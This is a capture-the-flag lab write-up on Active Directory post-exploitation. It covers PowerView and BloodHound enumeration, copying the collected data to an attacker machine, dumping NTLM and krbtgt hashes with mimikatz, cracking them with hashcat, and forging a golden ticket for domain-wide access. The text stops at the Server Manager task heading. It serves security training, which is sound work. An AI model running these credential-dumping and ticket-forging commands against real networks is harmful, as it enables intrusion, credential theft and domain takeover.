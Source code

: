 ```bash
export IP=10.10.61.225
```
# After we get a golden/silver ticket
We will learn about:
- Post exploitation enumeration
- Dumping hashes using mimikatz
- Basic information gathering using windows server logs
- Learn about basics of maintaing access with the metasploit persistence module 
- Creating a backdoor to get an instant meterpreter shell if the system was reset or shutdown.

> Topics
1. Introduction
2. Enumeratoin with powerview
3. Enumeration with bloodhound
4. Dumping hashes with mimikatz
5. Golden ticket attack with mimikatz
6. Enumeration with server manager
7. Maintaining access



# Task 2. Enumeration with powerview
Powerview is a powerful powershell script for enumerating a domain after you have already gained a shell in the system. 
We'll be focusing on how to start up and get users and groups from PowerView.

> Enumerate the domain users:
```
Get-NetUser | select cn
```
*syntax = powershell -ep bypass* 
(to bypass the execution policy of powershell to allow you to run scripts easily.)
type  to get a list of users

We got:
* Administrator
* Guest
* krbtgt
* Machine-1
* Admin2
* Machine-2
* SQL Service
* POST{P0W3RV13W_FTW}
* sshd 

> Enumerate the domain groups of user 'admin':
```
Get-NetGroup -GroupName *admin*
```
We got:
* Administrators 
* Hyper-V Administrators
* Storage Replica Administrators
* Schema Admins
* Enterprise Admins
* Domain Admins
* Key Admins
* Enterprise Key Admins
* DnsAdmins

# Task 3. Enumerate with bloodhound

> To install bloodhound run the following in the terminal.
```Bash 
sudo apt install bloodhound
and then,
ne04j console
```

> Getting loot with sharphound.
Type the following in powershell, after running `sharphound.exe`:
```
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

----
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip 

Initializing SharpHound at 11:11 AM on 3/4/2022


Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container 

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL     
PS C:\Users\Administrator> [+] Cache File Found! Loaded 104 Objects in cache 

[+] Pre-populating Domain Controller SIDS 
Status: 0 objects finished (+0) -- Using 82 MB RAM 
Status: 66 objects finished (+66 8)/s -- Using 86 MB RAM 
Enumeration finished in 00:00:00.3600579
Compressing data to C:\Users\Administrator\20220304111128_loot.zip 
You can upload this file directly to the UI

SharpHound Enumeration Completed at 11:11 AM on 3/4/2022! Happy Graphing!


---
Now we have the .zip file on the victim machine, we want to have it on our attacker machine to use.
---
> To do that we need `scp`
```
┌──(sypher㉿kali)-[~]
└─$ scp administrator@10.10.156.60:/Users/Administrator/20220304110716_loot.zip ~/Downloads 
administrator@10.10.156.60's password: 
Permission denied, please try again.
administrator@10.10.156.60's password: 
20220304110716_loot.zip 
```
---
Now we can use **bloodhound**
-

```bash
run `bloodhound` in the terminal
```
- And then sign in using the same credentials you set with neo4j.
- After that drag and drop the .zip file to bloodhound.

# Task 4. Dumping hashes with mimikatz 
* We'll be focusing on dumping the NTLM hashes with mimikatz and then cracking those hashes using hashcat. 

* To do just that, we need to run the following inside mimikatz;
```
lsadump::lsa /patch
```
* By typing the above command we get the NTLM hashes of all the users.
* And then we can use hashcat to crack those hashes.
```
> hashcat -m 1000 -a 0 Machine1-hash.txt ~/thm-rooms/pass.txt
```
# Task 5. Golden Ticket Attacks with mimikatz

1. Dump the krbtgt hash:
* We can use mimikatz to dump the SID and NTLM hash of the krbtgt domain admin
```
> lsadump::lsa /inject /name:krbtgt
```
And we get the following;
* SID = S-1-5-21-849420856-2351964222-986696166
* NTLM = 5508500012cc005cf7082a9a89ebdfdf

2. Create A Golden Ticket:
* Type the following inside mimikatz;
```
> kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
```
* Now the ticket will be saved to the directory where you started mimikatz

## Use the Golden ticket to access other machine
1. `misc::cmd` This command will open a new command prompt with elevated privileges to all machines.
```
mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7AD9F43B8
```
2. Access other Machines! - You will now have another command prompt with access to all other machines on the network. 
# Task 6. Enumeration with Server Manager

